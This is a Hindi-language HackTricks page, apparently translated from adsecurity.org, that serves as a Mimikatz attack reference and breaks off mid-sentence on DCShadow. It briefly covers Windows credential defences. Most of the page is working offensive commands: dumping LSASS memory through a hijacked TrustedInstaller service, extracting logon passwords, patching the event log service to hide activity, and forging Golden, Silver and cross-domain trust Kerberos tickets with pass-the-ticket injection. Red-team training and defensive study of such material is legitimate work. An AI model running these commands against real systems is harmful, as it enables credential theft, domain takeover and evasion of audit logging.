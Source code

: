 # Mimikatz

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित देखना चाहते हैं**? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का एक्सेस चाहिए**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) या **मुझे** ट्विटर पर **फॉलो** करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स रेपो** (https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को PRs सबमिट करके**.

</details>

**यह पृष्ठ [adsecurity.org](https://adsecurity.org/?page\_id=1821) से आधारित है।** अधिक जानकारी के लिए मूल चेक करें!

## LM और Clear-Text में मेमोरी

Windows 8.1 और Windows Server 2012 R2 से आगे, credential चोरी से बचाव के लिए महत्वपूर्ण उपाय लागू किए गए हैं:

- **LM hashes और plain-text passwords** को सुरक्षा बढ़ाने के लिए मेमोरी में अब नहीं रखा जाता है। एक विशेष रजिस्ट्री सेटिंग, _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest "UseLogonCredential"_ को एक DWORD मान `0` के साथ कॉन्फ़िगर करना होगा ताकि Digest Authentication को अक्षम करें, यह सुनिश्चित करता है कि "clear-text" passwords LSASS में कैश नहीं होते हैं।

- **LSA Protection** को प्रावधान किया गया है ताकि अनधिकृत मेमोरी पढ़ने और कोड इंजेक्शन से सुरक्षा प्राधान किया जा सके। इसे LSASS को एक संरक्षित प्रक्रिया के रूप में चिह्नित करके प्राप्त किया जाता है। LSA Protection को सक्रिय करने के लिए:
1. _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ पर रजिस्ट्री को संशोधित करके `RunAsPPL` को `dword:00000001` पर सेट करना।
2. एक समूह नीति वस्तु (GPO) को लागू करना जो प्रबंधित उपकरणों पर इस रजिस्ट्री परिवर्तन को प्रवर्तित करती है।

इन सुरक्षाओं के बावजूद, Mimikatz जैसे उपकरण LSA Protection को निषेधित कर सकते हैं विशेष ड्राइवर्स का उपयोग करके, हालांकि ऐसे कार्रवाई का संभावना है कि इवेंट लॉग में दर्ज किया जाए।

### SeDebugPrivilege Removal का विरोध करना

सामान्यत: SeDebugPrivilege होता है, जो प्रोग्रामों को debug करने की अनुमति देता है। इस विशेषाधिकार को अनधिकृत मेमोरी डंप्स को रोकने के लिए प्रतिबंधित किया जा सकता है, जो हमलावरों द्वारा credential को मेमोरी से निकालने के लिए एक सामान्य तकनीक है। हालांकि, इस विशेषाधिकार को हटाने के बावजूद, TrustedInstaller खाता एक अनुकूलित सेवा कॉन्फ़िगरेशन का उपयोग करके मेमोरी डंप्स कर सकता है:
```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```
यह `lsass.exe` मेमोरी को एक फ़ाइल में डंप करने की अनुमति देता है, जिसे फिर दूसरे सिस्टम पर विश्लेषित किया जा सकता है ताकि क्रेडेंशियल्स निकाले जा सकें:
```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```
## Mimikatz विकल्प

Mimikatz में घटना लॉग टैंपरिंग में दो मुख्य क्रियाएँ शामिल हैं: घटना लॉग साफ करना और नए घटनाओं का लॉगिंग रोकने के लिए ईवेंट सेवा को पैच करना। नीचे इन क्रियाओं को करने के लिए कमांड हैं:

#### घटना लॉग साफ करना

- **कमांड**: यह क्रिया घटना लॉग को हटाने का लक्ष्य रखती है, जिससे दुष्ट गतिविधियों को ट्रैक करना कठिन हो जाता है।
- Mimikatz अपने मानक दस्तावेज़ में सीधा कमांड प्रदान नहीं करता है जिससे इसके कमांड लाइन के माध्यम से घटना लॉग को सीधे हटाया जा सके। हालांकि, घटना लॉग मेनिपुलेशन आम तौर पर Mimikatz के बाहर सिस्टम टूल्स या स्क्रिप्ट का उपयोग करके विशेष लॉग को साफ करने में शामिल होता है (जैसे, PowerShell या Windows ईवेंट व्यूअर का उपयोग करके)।

#### प्रयोगात्मक सुविधा: ईवेंट सेवा को पैच करना

- **कमांड**: `event::drop`
- यह प्रयोगात्मक कमांड ईवेंट लॉगिंग सेवा के व्यवहार को संशोधित करने के लिए डिज़ाइन किया गया है, जिससे नए घटनों को रिकॉर्ड करने से रोका जा सके।
- उदाहरण: `mimikatz "privilege::debug" "event::drop" exit`

- `privilege::debug` कमांड सुनिश्चित करता है कि Mimikatz आवश्यक विशेषाधिकारों के साथ सिस्टम सेवाओं को संशोधित करे।
- `event::drop` कमांड फिर ईवेंट लॉगिंग सेवा को पैच करता है।


### कर्बेरोस टिकट हमले

### गोल्डन टिकट निर्माण

गोल्डन टिकट डोमेन-व्यापी पहुंच अनुकरण की अनुमति देता है। मुख्य कमांड और पैरामीटर:

- कमांड: `kerberos::golden`
- पैरामीटर:
- `/domain`: डोमेन का नाम।
- `/sid`: डोमेन का सुरक्षा पहचानकर्ता (SID)।
- `/user`: अनुकरण करने के लिए उपयोगकर्ता नाम।
- `/krbtgt`: डोमेन के KDC सेवा खाते का NTLM हैश।
- `/ptt`: सीधे टिकट को मेमोरी में इंजेक्ट करता है।
- `/ticket`: बाद में उपयोग के लिए टिकट सहेजता है।

उदाहरण:
```bash
mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit
```
### सिल्वर टिकट निर्माण

सिल्वर टिकट विशिष्ट सेवाओं तक पहुंचने की अनुमति देते हैं। मुख्य कमांड और पैरामीटर:

- कमांड: गोल्डन टिकट के समान है लेकिन विशिष्ट सेवाओं को लक्षित करता ह।
- पैरामीटर:
- `/service`: लक्षित सेवा (जैसे, cifs, http)।
- गोल्डन टिकट के समान अन्य पैरामीटर।

उदाहरण:
```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```
### विश्वास टिकट निर्माण

विश्वास टिकट को विश्वास संबंधों का उपयोग करके डोमेन के अधिकारों तक पहुंचने के लिए उपयोग किया जाता है। मुख्य कमांड और पैरामीटर:

- कमांड: गोल्डन टिकट के समान, लेकिन विश्वास संबंधों के लिए।
- पैरामीटर:
- `/target`: लक्ष्य डोमेन का FQDN।
- `/rc4`: विश्वास खाते के एनटीएलएम हैश।

उदाहरण:
```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```
### अतिरिक्त कर्बेरोस कमांड

- **टिकट सूचीकरण**:
- कमांड: `kerberos::list`
- वर्तमान उपयोगकर्ता सत्र के लिए सभी कर्बेरोस टिकट सूचीबद्ध करता है।

- **कैश पास**:
- कमांड: `kerberos::ptc`
- कैश फ़ाइल से कर्बेरोस टिकट इंजेक्ट करता है।
- उदाहरण: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`

- **टिकट पास**:
- कमांड: `kerberos::ptt`
- एक अन्य सत्र में कर्बेरोस टिकट का उपयोग करने देता है।
- उदाहरण: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`

- **टिकट सफाई**:
- कमांड: `kerberos::purge`
- सत्र से सभी कर्बेरोस टिकट साफ करता है।
- संघर्ष से बचने के लिए टिकट मानिपुलेशन कमांड का उपयोग करने से पहले उपयोगी है।


### सक्रिय निर्देशिका दुरुपयोग

- **DCShadow**: एक मशीन को अस्थायी रूप से एक डीसी के रूप में काम करने के लिए एडी ऑब्ज
